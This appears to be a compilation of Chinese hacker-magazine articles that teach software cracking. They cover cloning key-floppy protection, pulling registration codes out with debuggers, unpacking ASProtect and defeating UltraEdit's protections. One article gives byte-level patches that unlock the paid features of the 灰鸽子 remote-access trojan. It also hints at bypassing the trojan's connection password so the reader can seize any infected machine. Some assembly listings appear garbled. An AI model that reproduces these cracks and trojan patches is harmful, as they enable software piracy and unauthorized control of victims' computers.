这种方式存在一大缺陷是易被硬解密（因为别人也可学会通过 BIOS 的 INT13 中断格式化技术），也就是易被非法者生成相同的钥匙盘而作为正版出售。

那这些人是怎样解密这个“加密钥匙盘”呢？目前的解密方法主要可分为两种：软解密和硬解密。

软解密一方面是利用软件监测分析软件在运行时向加密点写了什么数据、从加密点返回了什么数据，然后在运行软件前先在内存驻留自编程序监视加密点，当软件向加密点写数据时，软件自动代替加密点并返回相应数据。

另一方面是从软件着手，寻找软件调用加密点函数等部分，修改判断加密点是否存在的语句，将程序直接跳转到正常执行的部分，如 Soft-ICE、TRW2000 等。但这种解密并不一定很彻底，由于加密者的设计，解密后的软件往往设有一定的陷阱。再者软件商在短时间内即做一次软件升级，使解密者难于应付。这种解密方式需要有较高的汇编基础，对于初学者都不推荐用这种方式破解。

硬解密就是专门研究加密点结构与数据，而自制具有相同结构及加密点的钥匙盘。

如目前流行的一种由成都双星软件技术工作室推出的密钥盘硬解密工具 KING_COPY，令广大解密爱好者欢喜若狂。这种解密后生成的软件与正版的一样，甚至享有免费升级的权利。如著名的杀毒软件 KV3000，有许多都是通过这种方式解密的。值得一提的是，我们复制的软磁盘和源盘是完全一致的，因此这一过程也可以叫克隆软磁盘。你所得到的钥匙盘，除了没有花钱去买以外，和正版没有任何区别。而且对技术要求不是很高，对初学者很适用。


其实制作这种加密的钥匙盘并不难，关键是要正确选择所需的软件。我们要用的软件是专门用来复制 KV3000 的 hth，这个软件在分析软盘低级磁道上功能很强，用它来制作 KV3000 易如反掌。好了，现在我们一步一步来制作这种钥匙盘。

解压缩 hth.rar 到指定目录，我们就解压缩到 `C:\hth` 吧。

这个软件推荐在纯 DOS 模式下制作钥匙盘，因为在制作软盘过程中，需要对软盘的零磁道，以及部分磁道的扇区进行改写。这在系统安全方面通常是不允许的，特别是在装有防火墙的操作系统上。因此，在 Windows 操作系统下制作的成功率是很低的。

> **注意**：请不要使用 Windows 操作系统的 COMMAND 进入程序，关闭系统后重新启动并选择 MS-DOS 方式；也可以在系统启动时按 F8，然后选择 `Command prompt only` 进入纯 DOS 方式，才是实 DOS 方式。

在 DOS 方式下我们键入：

```bash
C:\>cd hth
```

注意哦！要把这个目录工程文件的属性改为非只读。

```bash
C:\hth>attrib *.* -a -r
C:\hth>attrib（如图1所示）
```


```bash
C:\hth>hth
```

`C:\hth>hth`（如图2所示）

取正版的源盘放入软驱，选择“磁道检测”，按 F2，开始检测。然后再选择“读扇区数据”，依次执行 F2、F3、F5、F7、F8，如图3所示。


取一张空软盘放入软驱（注意要打开写保护），在菜单中选择“格式化磁道”，依次执行 F2、F3、F4。在菜单中选择“复制扇区数据”，依次执行 F8、F9，如图4所示。


这样，我们这张计算机等级考试三级数据库的钥匙盘就制作成功了，取出试一下，是不是和源盘一样呢？

其实我们可以用这种方法复制许多以钥匙盘方式加密的磁盘，像 KV3000、瑞星等等。是不是很简单呢？

如果谁有更好的办法，请写出来，希望我们能共同进步！

## 神秘园

大家在解密时经常会遇到这样的程序：在输入注册码后，软件并不急于进行比较，它会提示要你重新启动软件，然后在启动过程中自动加以比较，无论注册码是否正确都不加以提示。遇到这样的程序该怎么办呢？因为我们常用的那些方法都不管用了。本文要介绍的就是这样一款软件的解密过程，希望能对大家有所启示。

### 一、目标程序简介

介绍自己要破解的目标程序是一个好习惯，因为并不是每一个人都用过它，所以给你的目标程序做一个简单的介绍非常有必要……我们要破解的程序名字为：EZ Extract Resource。它是一款资源提取软件，可以从程序、屏幕保护、驱动程序、库文件、DLL、OCX 等数十种文件中提取几乎任何资源，如图标、光标、位图或 Wave、AVI、Midi、动画光标等，并可以直接浏览、播放这些资源……该软件的试用版有些功能被屏蔽了，所以要想使用全部功能就得自己想办法。

下载地址：http://www.downme.com/download/DowMe.com_15674ExtraResSetup.exe

### 二、所用破解工具

我要用的破解工具是 TRW2000，它是中国人自己编写的“SoftICE”，完全兼容 SoftICE 的各条指令……在 Windows 下跟踪调试程序，跟踪功能更强，可以设置各种断点，并且断点种类更多；它可以像一些脱壳工具一样完成对加壳外壳的去除，自动生成 EXE 文件……

下载地址：http://211.86.67.4/myweb/kanxue/tools/tools/Debuggers/TRW2000/TRW1.2X/ptrw1.22.zip

### 三、初步分析

下载 EZ Extract Resource 安装后，运行主程序 ExtractRes.exe，弹出注册框，分别输入用户名和注册码，点击“确定”。软件会提示你要重新运行软件来检查注册成功与否……本文之所以以 EZ Extract Resource 为例，也正是因为这个原因，当然还有一个原因是它比较简单，容易对付。

好了，关闭该软件，我们来找它把注册信息放到哪里了。运气不错，在注册表中发现注册时的用户名存放在这里：`HKEY_CURRENT_USER\Software\SeaMoonTech\EZ Extract Resource\RegInfo`，注册码保存在 `HKEY_CURRENT_USER\Software\SeaMoonTech\EZ Extract Resource\Settings`，而且都是明文形式存放的。

使用检测加壳软件 Language2000，发现该软件是用 VC++ 编写的，未加壳。如果要用静态反汇编工具反汇编它，检查软件是否加壳以及加壳所用的软件就很必要了，因为我们要脱壳。本文不采用静态反汇编方式破解该软件，所以不检测也可以。

### 四、深入破解

启动 TRW2000，点击“Browse”按钮找到 EZ Extract Resource，然后点击“Load”按钮载入该软件，在入口处被 TRW2000 断下，可以这样下断点：

```text
bpx RegQueryValueExa do "db *(esp+8)"
```


> 解释一下这个命令的作用：当软件去读取注册表中某一个键的值的时候，就会被 TRW2000 中断下来，并自动显示 `*(esp+8)` 的内容，内容就是那个调用的注册表键值的名字。

那么为什么要下这个断点呢？前面我们已经说过了，该软件在填入注册码后会重新启动软件，在启动的过程中判断是否注册过。那么它是通过什么来判断自己是否被注册过呢？答案是注册表……所以我们就用了有关注册表相关的断点：RegQueryValueExa。

接下来按 F5 键让软件继续运行，在中断几次后，在 TRW2000 的数据窗口终于看到了存放注册码的键名“RegCode”……然后输入 `pmodule` 回到程序领空，再按 F10 慢慢跟踪。

```asm
0040F278 57              push edi
0040F279 E8E3360300      call 00442961
0040F27E 8BCB            mov ecx, esi
0040F280 889C24D4010000  mov byte ptr [esp+000001D4], bl
0040F287 E854090000      call 0040FBE0    ; 关键比较 CALL
```

你可能要问，我怎么知道偏移地址 `0040F287` 处的 CALL 是关键所在，因为我跟踪调试过呀……所以解密的经验之一就是不断跟踪、不断分析、不断试验。

好了，让我们继续，按 F8 键进入此关键 CALL，然后按 F10 键几下，你会看到如下代码：

```asm
0040FC1D E8C8DA0100      call 0042D6EA
0040FC22 83C408          add esp, 00000008
0040FC25 85C0            test eax, eax
0040FC27 0F84A9010000    je 0040FDD6      ; 用户名为空则跳走
```

在接下来的代码中，EZ Extract Resource 会检查事先拟定的黑名单，使用黑名单上的注册码或用户名将无法注册成功，也就是说作者有所防备。

继续按下 F10 键，可以看到 EZ Extract Resource 的注册码计算过程。

我们这里大致说一下，以便你在跟踪时能心中有数，权当是提示吧：首先，它会取你的用户名送入 ECX 中，然后计算你输入的用户名的长度，并把用户名的每一个字符转为 HEX 值。接着再取软件预先设定的字符串并转为 HEX 值，然后从中取和用户名相同位数来进行计算，经过加减与取余处理后得到注册码前几位。再利用用户名长度参与运算，得到最终位，从而形成完整注册码。

这样说起来可能有些复杂，而如果把这部分代码列出来又太长了。其实很简单，只要你用 TRW2000 跟踪一下就知道整个过程是怎么回事了。要想快速得到注册码，可以在 TRW2000 中下断点：BPX 0040FD74，然后在 EZ Extract Resource 中输入用户名和注册码，点击“确定”会被中断在偏移地址 0040FD74 处。通过寄存器观察可对比真伪注册码并逐位修正，循环几次即可得到全部注册码。

## 五、结论

从上面的解密过程不难看出，对于填入注册码后自动重新启动的软件也不难破解，关键是要下好断点，即找准切入时机，只要机会把握得好，就能顺利地找到注册码比较核心。

对于复杂的程序，还可以结合静态反汇编来帮忙，加快找到核心比较区的步伐。只要不断实践，终究会成功的！

## 四、精彩剖析

——OllyDbg 破解技巧

风飘雪

OllyDbg 软件集静态分析和动态调试于一身，静动合一。以超小的个头、各个操作系统良好的兼容性和超凡的功能，一跃成为新款破解调试工具的典型代表。2001 年逐渐被破解人所认知，2002 年成为破解界的新宠儿，2003 年更是密界的风尚之品，引无数密界高手追逐和探究，它的许多优秀功能尚待大家去开发、探索和挖掘。

毋庸置疑，绝对是款值得你反复玩味、不容错过的精品。目前的最新版本为 1.09（光盘中有收录）。

我们的目标软件是 BadCopy99，它是款坏盘拷贝工具，能拷贝磁盘或光盘上的坏文件并具有修复功能，相当实用，颇受大家喜爱，最新版本 3.2。笔者以 2.0 版为例（光盘中有收录）。

我等小菜鸟也斗胆操起“OllyDbg”锋利小刀，运行 OllyDbg，选“File→Open”菜单，打开程序的主执行文件 Bcopy99.exe。完成后按 F9，BadCopy99 软件就被启动，点“About”菜单的“Register”按钮，出现注册窗口。注册名（Register Name）填：飘风软件；注册码（Register code）任意填一个，我填的是 654321。

点击“OK”按钮，弹出出错信息框，告知你注册码不对（Register code Error!）。这时不要关闭出错信息框，不要再碰软件了，直接来到 OllyDbg 的主界面。它的主界面由 4 个小窗口组成，如图所示。

按 F12 键，即暂停（Pause）快捷键，密切留意右下方的小窗口，向下拖动此窗口的滚动条，你会看到（如上图所示）：

```
ASCII "654321"
ASCII "412366"
```

“654321”是不是很面熟，它就是我们刚才输入的假注册码。那“412366”又是什么呢，当然就是真注册码了！和作者主页公布的一对比，还确实没错。

此法称作 OllyDbg 暂停法，关键就在暂停的一刹那，让你充分体会停止的艺术。有款名叫“神奇注册表”的国产软件，早期版本可以用此法，待读者自行练习。

## 灰鸽子破解实战

Leo

声明：这篇文章只是手记，记录了我自己动手实战的过程，所以理论性不强，很实用，并且保证结果的可靠！其中参考了沧浪客先生的一些思路和数据，在此向他表示感谢！

现在的木马五花八门，功能也各式各样。而反弹端口的“灰鸽子”（简称 HGZ）则是其中的集大成者！不知道大家对 HGZ 了解多少？因为这里主要是谈破解 HGZ，所以暂不对它的功能详细描述。运行灰鸽子后，你可使用它的大部分功能，如果想得到全部功能，就要注册，价格是：￥100！……

HGZ 采用的注册机制是网上验证（图 1），即你先必须连接 Internet，然后填入你正式注册到的用户名和密码，然后确定。程序会把你的用户名和密码发送到远程服务器上验证，然后再返回验证结果给程序……

图 1

不知大家是否还记得 QQ 密码终结者……那 HGZ 是不是也可以本地暴力破解呢？在参考了沧浪客的文章后，我动手试了，的确可行！接下来我们就进入破解实战……

- 1. 首先，检查 HGZ（当时正版 0.1）是否加壳保护。我用的是 PEiD 软件……发现它是用 Aspack 2.12 加的壳，所以我们可用 Aspackdie 来脱壳。脱壳前文件大小为 709KB，脱壳后为 2.69MB。
- 2. 然后运行 HGZ_Client_unpacked（脱壳后的客户端），会弹出提示框说文件被非法修改。这是因为 HGZ 运行时会检测自身是否被修改过，以防被“盗”。我们必须突破这一关才能进行后面的工作。

……既然程序弹出对话框，我们可用 w32dasm 进行反汇编（图 2），然后查找对话框中的字符串，进行分析，以找到突破口，在必要时还需用 TRW2000 进行动态分析。

```
* Possible StringData Ref from Code Obj -> "灰鸽子自我检测"
:00572E47 BA8C315700      mov edx, 0057318C
:00572E4C E8274BFFFF      call 00467078
:00572E51 8BC7            mov eax, edi
:00572E53 E89044EFFF      call 004672E8
:00572E58 84C0            test al, al
:00572E5A 750C            jne 00572E68
:00572E5C 8B06            mov eax, dword ptr [esi]
:00572E5E E8D191FFFF      call 00464780
:00572E63 E911030000      jmp 00573179
```

图 2

- 3. 从图 2 代码可得结论：只要不执行偏移地址 00572E53 处的 call，HGZ 就不会显示自校验对话框。若把 00572E5A 处的 jne 改为不跳转，就可使 HGZ 运行。
- 4. 打开 UltraEdit，查找 `E89044EFFF`（00572E53 处 call 004672E8 的机器码），将其修改为 `9090909090`（90 代表 nop），保存后即可使 HGZ 运行。
- 5. 下面任务是破解注册验证。继续在 w32dasm 中搜索关键字符串，因为要变为注册用户，所以先搜索“注册用户”这一敏感字符串（图 3）。

```
:0053DA98 8D45E0          lea eax, dword ptr [ebp-20]
:0053DA9B 8B55EC          mov edx, dword ptr [ebp-14]
:0053DA9E 8D1C98          lea ebx, dword ptr [eax+ebx]
:0053DAB7 E8707FECFF      call 00404C1C
...
* Possible StringData Ref from Code Obj -> "网络验证身份成功! 程序以注册用户身份运行!"
```

图 3

从“网络验证身份成功！程序以注册用户身份运行！”可知，HGZ 在上面代码中进行了注册用户身份判断。只有偏移地址 0053DAB7 那行有跳转，所以只要让它不跳走，程序就会走到“网络验证身份成功！程序以注册用户身份运行！”。

- 6. 我们仍用 UltraEdit 来修改。打开 HGZ 主程序，查找 `E80573ECFF755D`，把最后的 `755D`（jne）改成 `9090`（nop）。这样程序就不会跳走了。
- 7. 这里才解决了一个验证点。继续在 w32dasm 中按 F3 搜索下一个“注册用户”，还会找到类似验证模块。方法同样是用 UltraEdit 修改，例如把 `E84371ECFF7556` 末尾 `7556` 改为 `9090`，保存即可。

到这里还没有完全结束，虽然打开后显示是注册用户，但由于是破解的，有些功能还是有限制，比如：“远程控制命令→代理服务→socks5 代理服务”；命令广播中的所有内容。如果使用这些功能，就会提示：“对不起！只有注册用户才能使用此功能！”，所以那还要继续破解。

在 w32dasm 中搜索“只有注册用户才能使用此功能”，不要加标点，不然可能搜不到，你会看到图 4 所示的代码。

```asm
:0057061C 33C0
:0057061E 55
:0057091F 6899057600
:00570824 64FF30
:00570827 648920
:0057082A 60BB5509000000751B
:00570831 751B
:00570833 8B8310030000
:00570839 8900200000
...
```

看到偏移地址 00570831 那行的 jne 了吗？就是把前面的 751B 改为 9090？那就是不让它跳转，让程序一行一行地顺序运行，最后得到的是：“对不起！只有注册用户才能使用此功能！”。所以这里不是改为 9090，而要把 751B 改为 EB1B，意思就是让它跳转。经测试，只要它跳转了，就可解除限制。

解除了这一个，下面还有很多，所以要按 F3 一个一个地找，直到全部修改完为止。改这么一个、改一个很烦，说不定还会搞乱了，所以我建议：不要急着用 UltraEdit 修改，先把 cmp 和 jne 前面的机器码记下来：80BB5509000000751B，然后按 F3 继续查找下一个。下一个的格式和这个几乎一样，cmp 和 jne 前的机器码也是 80BB5509000000751B，这就不要记了。再找下一个，好像还是一样，也不要记了。只要找到不一样的（如 80B85509000000752E）就记下来。把所有的都找到后，用 UltraEdit 打开灰鸽子，开始修改资源。在 UltraEdit 中查找刚才记下来的机器码：80BB5509000000751B，把 75 改为 EB 就可以了（即跳转的意思）。

接下来不要退出！你还记得吗？刚才不是找到了好几个 80BB5509000000751B 相同的地方吗？在这里要一起改了，所以按 F3 找下一个，直到全部修改完为止，接着再去修改下一个不同的机器码，如 80B85509000000752E。把这些机器码里的 75 都改为 EB 后，别忘了存盘。

这样就大功告成了！运行一下，是不是发现刚才那些限制都没了？现在你是不是已经累了，等改完剩下的最后一个限制，就告诉你最精彩的！

其实，最后一个也不算限制，就是在你配置服务端时，总会弹出提醒对话框：“注册用户登陆后不会出现此对话框”，很烦人！我们在 w32dasm 中搜索“对话框”，思路也是把 75 改为 EB，这里不多说了，在 UltraEdit 里的操作是搜索“80B855090000007513”（有 3 个），把它们都改为 80B85509000000EB13，保存。

现在的 HGZ 已经和注册码没什么不同了。前面我提过，自己破解可以获得一项特殊功能，这其实是 HGZ 的一个 Bug。如果你用过了 HGZ，一定知道里面有一项连接密码功能，就是你在服务端上设个密码，然后给你的肉鸡补上，那么只有知道连接密码的人才能连接这台肉鸡。然而，进行密码校验的并不是服务端，而是客户端，也就是说，能不能连上对方并不取决于对方怎么样，而是取决于你自己的控制端。那我们就可通过修改客户端（即控制端），连接任何一种灰鸽子的肉鸡，而不需要输入连接密码！至于怎么做，那就要靠你自己动手了，我在这里就不明示了。原理和上面一样。

注意：当你连接密码错误时，会有提示，那你就去搜索这提示的字符串，然后修改相应的命令。试一试，你应该可以做到！末了，我还有个困惑：在 2003 年 5 月刊里，《X 档案》也有位朋友提到的，就是 HGZ 木马服务端的脱壳问题。我实在不确定它是用什么加的壳，PEiD 侦测说是 teLock，而 language2000 说是 PEpack，但我用这两个脱壳工具都解不开。后来好不容易解开后却不能运行！这是作者下的绊子，但听说注册用户会得到作者解压缩的教程。希望哪位高手或已注册的朋友能够赐教，如果不重新加壳，那是很容易被杀毒工具发现的！

本文中光盘提供的软件有：灰鸽子编译正式版 0.1、PEiD、UltraEdit、Aspackdie、w32dasm、TRW2000。

## aispark

记得以前有个朋友经常来找我，说他的电脑老是出现非法操作。系统重做后变好一点，但问题依然存在，过了几天又开始了，问我有没有解决的办法。这种问题别说他了，我也经常碰到，但若问起我如何解决，那倒没有什么很好的办法。

其实，非法操作大部分都是软件上的问题，比如操作系统的 BUG、程序本身被破坏等。但若把非法操作和破解联系上，可不是那么简单的事了。

前几天有个网友让我帮他看一下软件，这个软件有时间限制，到期后就不给用了，一开就非法操作。我装上软件后把时间向后调了 30 天，一运行果真出现非法操作，点详细信息时看到一个地址 004xxxxx 异常，显示的不是 kernel32.dll（这是 Win98 的内核文件），而是主文件。看来一定是程序员人为制造出来的非法操作，先不管那么多，用 TRW2000 载入它，下断点 Bpx 4xxxxx（在出现非法操作的地方设断点），只要能断下来我们就能分析它了。断下后我们能看到如下代码，仔细分析一下吧！

```asm
MOV EDI,[EBP+00]
MOV EBX,[EBP+0A]
XXX      LEA EAX,[EAX+47]  ; 走过这句后...
EAX=276AEF
MOV EDI,[EBP+0C]
MOV EBX,[EBP+0A]
4xxxxxx  MOV EDX,[EAX]     ; 走过这个代码后
EDX=50D36400
#####    CALL [EDX+0C]     ; 用这种 EDX 作指针不非法才怪呢。
TEST EAX,EAX
JNZ XXXXXX
```

## 神秘园

在 4xxxxxx 处的 EDX=50D36400，是一个非法地址，下 D EDX 看到的都是 ???? ???? 表示未知的数据，对未知的数据进行读写都会引起非法操作，那么正确的 EDX 应该是什么呢？看来只有跟踪一下试试看，如果能找到让它变成一个非法地址的代码就好了。但现在不能在 TRW2000 中往下走了，因为 EDX 已非法，所以 CALL [EDX+0C] 肯定也非法，一走就死机。仔细看一下 EDX 为 50D36400，大胆设想一下，如果少了后面的 00 就是合法的，只有让 EDX 合法才能继续。先不管那么多，从这个断点返回才是最重要的事。

把 EDX 改成 50D364，往下走，可以从这个段中退出。接下来要分析一下原因，在 XXXX 处断下来后，按 F10 运行后打 D EAX，看看里面有哪些数据：

```
0173.276AEF   00 64 D3 50 00 A4 58 50 00 78 A1 9D
........
```

注意其中的这 5 个字节“50 00 A4 58 50”，从第 1 位到第 4 位正好是非法地址，如果从 276AF0 取 4 个字节（也就是从 64 开始取 4 个字节），那么就是 0050D364，这可是合法地址。

现在大家应该知道该如何处理了吧！你们能悟出其中的奥妙吗？我在这里先卖一个关子，等会告诉你们。

其实，破解和黑客技术是相互渗透的，最关键的东西就是思想。所以我写这篇教程的目的并不是告诉你如何一步一步地跟踪到非法操作的地方，然后怎么处理、设什么断点、改什么值，而是让你们学会去分析它们的加密思想。现在的加密技术日新月异，只有不断地接触这些新技术才能跟上潮流。

当然，有些东西是要靠经验的，比如我看到非法地址就能想起如果少一个 00 就会合法。加密者用非法操作作为过场后的提示，主要是因为很少人能把这个现象和加密联系在一起。大部分人都以为程序被病毒破坏了，杀过毒后仍然不给使用，就会放弃，他的目的也就达到了。

我很少写教程，这是我第一次在《黑客 X 档案》上发表文章，多亏风兄（风飘雪）介绍。我和风兄一样，也是一个破解爱好者，玩破解大概 4 年了，最早我是从解共享软件开始。那时很疯狂，天天从中国共享软件注册中心下载破解版，每星期像是为了了解最新的加密技术。有时我破解后会发 E-Mail 给软件作者，指出他们的软件在加密上的不足。记得有一次国产某软件的作者还特地打长途电话给我，向我请教如何加密，我告诉他方法后他很高兴，并说以后他会给我免费注册。谁知从那以后他就再也没和我联系了，我上 QQ 和他打招呼也不理我，不知是不是忙着赚注册费呢！不过没关系，软件做得不好没人愿意去破解它，更不会有人去买了。

没过多久，它的破解又重新出现在很多网站上，哈哈！国内很多软件公司也是一样，你破解了他们的软件后并告诉他如何提高加密强度，他们都不会理你，反而是冷嘲热讽，甚至是恐吓。唉！这样能有发展吗？技术上能提高吗？

好了，说话说了这么多，不知大家是否还记得非法操作这个词。呵呵，我都差点忘记了。大家看看 276AEF 的 4 个字节是 0064D350，反过来正好是 50D36400，是个非法地址；但 276AF0 的 4 个字节是 64D35000，反过来却是 0050D364，是个合法地址。我们在跟踪时手工把非法地址改成这个合法地址后就能用了。

接下来，要做的就是找到哪里把 EAX 赋值成 276AEF 的。经分析，有这段赋值代码，它离出错的地方不远。

```asm
LEA EAX,[EAX+47]   ; 没有走过这段代码之前
EAX=276AA8
; 276AA8+47=276AEF，只要把 47 改成 48 就行了
```

也就是 XXXX 处，EAX=EAX+47 写成数学方式，Y=X+47，Y=276AEF 解出 X=276AA8；但若 Y=276AF0 呢？X 要再加上 1，我把 EAX+47 改成 EAX+48 就 OK 了。怎么样？很简单吧！其实，我应该再跟进去找到哪里使 EAX=276AA8，毕竟这才是根源，但改后面的 47 也一样能搞定。破解就是不管用什么方法解除软件上的限制，如果有 N 种方法都可行，当然选更省时、省力的了。

破解和黑客技术的精髓主要是思想，有了思想，剩下的就是体力劳动和运气了。在以后的《黑客 X 档案》中，我会继续向大家介绍各种破解技巧。

## PE文件修复必杀技

随着加密解密技术的飞速发展，软件保护越来越引起人们的重视和关注。如今，没有加壳的软件几乎很难见到。因此，除去软件的“盔甲”，解除其外壳保护，还原软件的本来面目，成为软件分析的第一条必经之路。壳的保护力度的增强，令许多自动化脱壳软件无法招架，学会手动脱壳技术已迫在眉睫。

手动脱壳的基本步骤是：寻找入口点（OEP）→ dump 转储程序 → 修复 PE 文件。

其中，修复 PE 文件的常用工具软件有 PEditor、LordPE、Import REConstructor、ProcDump 等。

### PEditor

PEditor 是款功能强大的 PE 文件编辑工具。它能编辑 PE 文件头，具备 dump 转储程序功能；其 PE 编辑功能配合 ProcDump，重建 PE 文件主要使用“rebuilder”菜单。

- **wipe relocation section** —— 去掉重定位区段；
- **realign file** —— 使文件重对齐，有 normal / hardcore 两种模式；
- **rebuild Import Table** —— 重建输入表（可重建现有输入表或新建输入表）；
- **make PE Header win nt/2k compatible** —— 使 PE 文件头适配 Windows NT / Windows 2000，便于跨平台运行。


图1


图2

### Import REConstructor

Import REConstructor 是目前较好的输入表修复工具。它可从杂乱无章的程序中构建完整输入表，可重建输入表描述符、IAT 和 ASCII 函数名。可辅助手动脱壳，支持 UPX、CDilla、PECompact、PKLite32、Shrinker、ASPack、ASProtect 等壳。

运行 Import REConstructor 之前需满足：

- 目标文件已被 dump 到另一个文件中；
- 目标文件必须先运行；
- 必须找到真正入口点（OEP）。

### Trw2000 中的相关指令

- 命令 **makepe**：从内存整理出名为“newpe.exe”的 PE 格式 EXE，Import Table 已重建，可跨平台运行。
- 命令 **pedump**：将 PE 文件内存映像直接映像到“dump1.exe”，Import Table 未重建，不能跨平台运行。

### 举例

下面以实验文件 1.exe 为例说明步骤，并给出所用工具（如 peid、ollydbg 插件、superbpm、Import REConstructor、PEditor 等）。先用 peid 查看壳为 ASProtect 1.2，如图3所示。


图3

- 找被脱壳的入口点（OEP）：在 peid 的“OEP 查找”菜单得到入口点 VA=440858，RVA=VA−400000=40858（图4）。
- 在入口点处完全 dump 目标文件。


图4

用 ollydbg 载入 1.exe，按 F9 运行程序，产生异常；按 Shift+F9 跳过异常，共按 20-1=19 下。因为按 20 下程序界面弹出，术语称为“跑飞”。向下寻找第一个 RETN（图5）。


图5


图6


图7

用 F2 在 RETN 处设断，按 F9 继续运行程序，遇到异常跳过，中断在断点处。这时，我们在 command bar 窗口处下指令 `bp 440858`，回车（图6）。继续按 F9，程序断在 440858，用 ollydump 插件的“Dump debugged process”菜单完全 dump 脱出程序，命名为 dump1.exe。

3．先运行需要脱壳的原程序 1.exe，再运行 Import REConstructor。在 Import REConstructor 下拉列表框中选择应用程序 1.exe 进程。然后在下方的 OEP 处填入 RVA（即 40858），点 IAT AutoSearch，再点 Get Imports，然后点 Show Invalid。在 Imported Functions Found 窗口里的无效地址上点鼠标右键，选 Trace Level1（Disasm），如图7所示。

4．再点 Show Invalids，发现还有 1 个没有修复，再次在那个没有修复的地址上点鼠标右键，选中 Plugin Tracer（ASProtect 1.2X Emul），再点 Show Invalids，应该发现所有的 DLL 显示为 valid；Yes 了（图8）。


图8

最后，再点击 Fix Dump 按钮，选中你用 ollydump 插件 dump 出的文件 dump1.exe 修复，命名为 dump1_.exe。此程序已修复成功，重建了一个完美的输入表，能运行在任何平台。（本文中，光盘里收录有如下软件：Import REConstructor v1.4.2+、PEditor 1.7、peid、ollydbg 1.09b、superbpm）


为保护自己辛辛苦苦编的软件，软件作者们可谓是煞费苦心，想出许多办法来保护自己的作品。常见的保护方式有序列号方式、时间限制、NAG 窗口、Key file……每种保护如果做得够好，都非常难以破解。如果是上述保护方式结合起来会怎么样呢？UltraEdit 就是这样一款软件，它采用了上述四种保护方式，十分令人头疼。今天我们就谈谈如何破解 UltraEdit，放心，只要你能从头看到尾，就能自己动手破解该软件，以后再碰到同类软件就可轻松对付！

## 一、UltraEdit 简介

UltraEdit 由 IDM Computer Solutions 公司出品，目前的最新版本为 10.0c。它是款功能强大的文本编辑器，可编辑文字、Hex、ASCII 码，内建英文单字检查、C++ 及 VB 指令突显，可同时编辑多个文件。对 .EXE、.DLL 等文件能以 16 进制方式进行编辑修改，特别适合修改文件时使用。最新版修正了老版本存在的一些 Bug，并新增了对安全 FTP（SFTP）的支持，整合了 CSE HTML Validator，增加了新的宏命令等二十余项新功能。大家可在光盘中找到它。

## 二、UltraEdit 给我们制造了哪些麻烦

对于新手来说，UltraEdit 不太容易破解。主要是因为它采用了序列号方式、时间限制、NAG 窗口和 Key file 四种保护方式。顾名思义，序列号方式就是要我们输入注册码，只要注册码正确，其余限制全部取消，这也是我们今天的主要破解目标；时间限制是指……


图1

UltraEdit 有 45 天使用时间，如果到了规定时间还没有注册，则无法继续运行该软件；NAG 窗口是指在没有注册成功前，每次启动 UltraEdit 都会出现一个窗口（图1），提示你注册该软件；Key file 保护顾名思义，你必须拥有 Key 文件才能使用软件的全部功能或没有其他限制。事实上，注册成功后，会在 UltraEdit 安装目录下生成一个名为 Uedit32.reg 的文件，UltraEdit 每次启动时都会读取其中的内容，如果把该文件删除，则又成为未注册版。

令人大头疼的还不止这些，在你输入注册码后，UltraEdit 并不直接进行注册码的对比，而是提示要你重新启动该软件，注册码在下次启动过程中加以比较，无论注册码是否正确都不加以提示！对新手来说，有一定的难度，因为我们得不到有用的提示信息，这样反汇编后就不能根据提示信息迅速找到关键代码。

最气人的是，在重新启动过程中比较注册码时，UltraEdit 也没有痛痛快快地一次性把全部注册码比较完毕（如果你在此时设断点会看到一串字符，但并非是完整的注册码），而是在退出时再次比较注册码中的某几位，如果发现不对劲就删除已生成的 Key 文件 Uedit32.reg，软件再次成为未注册版！好多英雄好汉在解密时就是栽倒在这道坎上！

xxxxx-xxxxx-xxxxx-xxxxx 这个格式呢？如果你以前破解过 UltraEdit 的老版本就应该知道。单击“确定”按钮，UltraEdit 会要求重新启动软件以便比较注册码，点击“是”则 UltraEdit 自动关闭。


图2

### 三、破解目标和思路

**目标：**我们的首要目标是得到 UltraEdit 的序列号。其次，告诉大家另外一种破解该软件的方法，即不用得到序列号，也能去掉其所有限制的方法。

**所用工具：**在得到 UltraEdit 的序列号过程中，我们需要反汇编该软件，进行动态、静态结合分析得到其注册码。因此，我们需要动态调试软件 SoftICE、TRW2000 等，还需要静态反汇编工具 W32Dasm 等。我习惯于使用 TRW2000 和 W32Dasm，所以文章中使用这两款软件来破解它。另外，为了查看软件是否加壳，我们还需要侦测加壳软件 FI 或 Language2000 等。最后，由于要修改 UltraEdit 中的 16 进制代码，我们还需要 WinHex 等 16 进制文件编辑器。以下软件大家都可在光盘中找到：TRW2000、W32Dasm、FI、Language2000、WinHex。

**思路：**由于 UltraEdit 在重新启动后比较注册码，在这个过程中会读取 Uedit32.reg 文件中的内容，所以我首先想到程序可能使用了 ReadFile 函数。因此可以用 `BPX readfile do "d esp-100"` 来下断点，中断后返回到 UltraEdit 领空，等到在 TRW2000 的数据窗口看到 `C:\Program Files\UltraEdit\UEDIT32.reg` 字样时，按 F12 键若干次，然后再按 F10 一步步跟踪，利用这种方法就可破解该软件（一开始我就是这么做的）。但后来发现了更简单设定断点的方法，就是下断点 `BPX CreateWindowExA`，这样更快捷，很容易就得到了初始注册码（该注册码中有两位不正确，在退出 UltraEdit 时会进行比较）。对于退出 UltraEdit 时进行比较的注册码，我们可用 `BPX DeleteFileA` 来下断点，UltraEdit 发现注册码中还有两位不正确时，会调用 DeleteFileA 来删掉 Uedit32.reg 文件，所以我们可下断点 `BPX DeleteFileA` 来快速找到注册码的关键比较地方。以下是具体的破解过程。


图3

此时如果你够信心，到 UltraEdit 的安装目录下看看吧，你会发现多了一个名为 Uedit32.reg 的文件，里面是经过加密处理的注册信息。Uedit32.reg 就是 UltraEdit 每次启动时都要检查的 Key 文件。

现在运行 W32Dasm，点击“反汇编”菜单中的“打开文件”，找到 Uedit32.exe 文件将其加载进来，等一会儿就会反汇编完毕（图4）。

### 四、具体破解过程

#### 1. 得到 UltraEdit 序列号

首先用侦测加壳软件 FI 和 Language2000 查看 UltraEdit 是否加壳，结果表明该软件并未加壳（图2），真是天助我也！赶快运行 UltraEdit 的主程序 Uedit32.exe，会出现一个对话框要求我们输入软件注册码（图3），填入你的大名和注册码。我输入的用户名为 hacker，注册码：09876-54321-edcba-jihgf。为什么注册码用


图4

接下来点击“参考”菜单中的“串式参考”（图5），会出现一个对话框，里面有各种 W32Dasm 串式参考内容，找找看是否有对我们有用的内容。找啊找，终于发现一个对我们很有用的信息：Extension License（图6），它的中文意思是“延长许可”。顾名思义，可以让我们延长使用时间。双击该文本会来到 W32Dasm 的主界面窗口中，发现正是我们要找的关键内容，如下所示：

```
* Reference To: USER32.CreateWindowExA, Ord:0060h

* 关键的 API 调用:
